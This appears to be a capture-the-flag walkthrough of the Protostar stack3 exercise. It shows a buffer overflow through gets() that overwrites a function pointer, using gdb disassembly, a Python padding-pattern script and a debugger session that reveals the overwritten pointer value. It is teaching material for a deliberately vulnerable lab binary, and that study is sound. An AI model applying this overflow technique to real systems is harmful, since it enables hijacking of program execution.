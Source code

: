 Since **gets** reads input directly into **buffer** without bounds checking, we can exploit this behavior to overflow the address stored in **fp**, redirecting execution to **win**.

Let's have a closer look at the program in `gdb`:

``` shell
user@protostar:/opt/protostar/bin$ gdb ./stack3
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x08048438 <main+0>:    push   ebp
0x08048439 <main+1>:    mov    ebp,esp
0x0804843b <main+3>:    and    esp,0xfffffff0
0x0804843e <main+6>:    sub    esp,0x60
0x08048441 <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048449 <main+17>:   lea    eax,[esp+0x1c]
0x0804844d <main+21>:   mov    DWORD PTR [esp],eax
0x08048450 <main+24>:   call   0x8048330 <gets@plt>
0x08048455 <main+29>:   cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:   je     0x8048477 <main+63>
0x0804845c <main+36>:   mov    eax,0x8048560
0x08048461 <main+41>:   mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:   mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:   mov    DWORD PTR [esp],eax
0x0804846c <main+52>:   call   0x8048350 <printf@plt>
0x08048471 <main+57>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:   call   eax
0x08048477 <main+63>:   leave
0x08048478 <main+64>:   ret
```

I will set a breakpoint at `0x08048475`, and inspect the stack. To make it simple for the debugging process, I will create a simple script to keep track of the address store in our function pointer **fp**.

Here is my script:

``` python
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"

print padding
```

This script will help we notice what is the value currently stored in **fp**, which is **[esp+0x5c]** in the stack.

Before running the script, I will direct its output into a file and make this file as the input for my debugging process in `gdb`.

``` shell
user@protostar:~$ python script.py > /tmp/exp
user@protostar:~$ gdb /opt/protostar/bin/stack3
(gdb) break *0x08048475
Breakpoint 1 at 0x8048475: file stack3/stack3.c, line 22.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/24wx $esp
>info registers
>end
(gdb) r < /tmp/exp
Starting program: /opt/protostar/bin/stack3 < /tmp/exp
calling function pointer, jumping to 0x51515151
0xbffff6f0:     0x08048560      0x51515151      0xb7fff8f8      0xb7f0186e
0xbffff700:     0xb7fd7ff4      0xb7ec6165      0xbffff718      0x41414141
0xbffff710:     0x42424242      0x43434343      0x44444444      0x45454545
0xbffff720:     0x46464646      0x47474747      0x48484848      0x49494949
```